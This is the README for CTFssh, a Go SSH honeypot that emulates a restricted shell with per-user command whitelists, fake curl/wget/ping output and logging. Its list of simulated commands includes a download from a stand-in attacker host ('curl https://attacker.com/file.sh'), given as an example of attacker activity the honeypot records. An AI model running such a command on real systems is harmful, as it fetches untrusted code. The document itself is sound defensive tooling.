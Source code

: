# CTFssh – Minimal SSH Honeypot Shell

**CTFssh** is a lightweight and configurable SSH server written in Go, designed to simulate a restricted shell for honeypots, CTFs, and sandbox environments. It supports both password and public key authentication, user-based command whitelists, and realistic command emulation.

---

## ✨ Features

- 🔐 Auth via shadow-compatible password hashes or SSH public keys
- 🧑 Per-user permissions and command restrictions
- 📂 Simulates Linux commands using static text or fake executable scripts
- 🚫 No shell, tunneling, SCP, or real exec
- 🪓 Login rate limiting per user/IP
- 🧠 Honeypot-safe logging of commands and URLs

---

## 🛠️ How It Works

- Users are authenticated using `users.json`
- Each session launches a custom shell environment
- Only predefined commands are accepted per user
- Commands either:
  - Return static text (from `text/`)
  - Run safe scripts (from `command/`)
- Logs all commands, login attempts, and fake network usage

---

## 📁 Project Layout

├── main.go # Entrypoint 
├── users.go # Authentication logic 
├── commands.go # Command dispatch and execution 
├── hostkey.go # Host key loader/generator 
├── ratelimit.go # Login rate-limiting 
├── users.json # User definitions 
├── host_key # SSH server key 
├── command/ # Simulated executables (curl, ping, etc.) 
├── text/ # Static command output (ls, uname, etc.) 
├── help/ # Help messages per command 
├── work/ # Optional user work directory

---

## 🚀 Quick Start

### 🔧 Build

```bash
go build -o ctfssh
```
🔐 Host Key
Generate it on first run or with:
```bash
make hostkey
```
👤 Create users.json
Example:
```json
[
  {
    "username": "admin",
    "hash": "$6$somesalt$...",
    "admin": true,
    "restrict": "",
    "allowed": ["help", "exit", "ls", "cat", "curl", "wget"],
    "prompt": "$ ",
    "banner": "Welcome to your secure fake shell"
  }
]
```

Generate hashes:
```bash
python3 -c 'import crypt; print(crypt.crypt("admin", crypt.mksalt(crypt.METHOD_SHA512)))'
```

▶️ Run the Server
```bash
./ctfssh --port 2222 --hostkey host_key --users users.json --banner "SSH-2.0-CTFssh"
```

🧪 Simulated Commands

cat /proc/cpuinfo
curl https://attacker.com/file.sh
ping 8.8.8.8
w, last, uname, uptime, ls, id

🔒 Security & Safety

All commands are isolated and non-destructive
Inputs are parsed and sanitized
No shell or command chaining allowed
Rate limiting blocks bruteforce attempts
Can safely be run on port 22 using setcap or iptables redirect



Flag	Description
--port	Port to listen on
--hostkey	Path to SSH private key
--users	Path to user config JSON
--banner	SSH version banner string

📦 Example Commands in command/

cat → fake /proc and /etc reads
curl, wget → logs URLs and mimics download
ping → fake ICMP responses
w, last → fake session reports

📤 Deployment

Use make build or:
```bash
go build -o ctfssh main.go users.go commands.go hostkey.go ratelimit.go
```

Use authbind, iptables, or setcap to bind to port 22 as non-root.
🛡️ License

MIT


